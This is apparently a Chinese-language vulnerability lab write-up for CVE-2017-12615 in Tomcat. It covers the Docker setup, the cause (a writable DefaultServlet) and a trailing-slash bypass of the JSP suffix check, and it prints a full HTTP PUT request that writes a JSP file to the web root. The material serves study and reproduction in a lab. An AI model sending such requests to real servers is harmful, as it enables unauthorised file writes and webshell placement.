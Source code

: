 # Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）

Tomcat版本：8.5.19

## 环境搭建

```
docker-compose build
docker-compose up -d
```

运行完成后访问`http://your-ip:8080`即可看到Tomcat的Example页面。

## 漏洞原理

参考：

- http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0107097.html
- https://mp.weixin.qq.com/s?__biz=MzI1NDg4MTIxMw==&mid=2247483659&idx=1&sn=c23b3a3b3b43d70999bdbe644e79f7e5
- https://mp.weixin.qq.com/s?__biz=MzU3ODAyMjg4OQ==&mid=2247483805&idx=1&sn=503a3e29165d57d3c20ced671761bb5e

漏洞本质Tomcat配置了可写（readonly=false），导致我们可以往服务器写文件：

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

虽然Tomcat对文件后缀有一定检测（不能直接写jsp），但我们使用一些文件系统的特性（如Linux下可用`/`）来绕过了限制。

## 漏洞复现

直接发送以下数据包即可在Web根目录写入shell：

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```

如下：

![](01.png)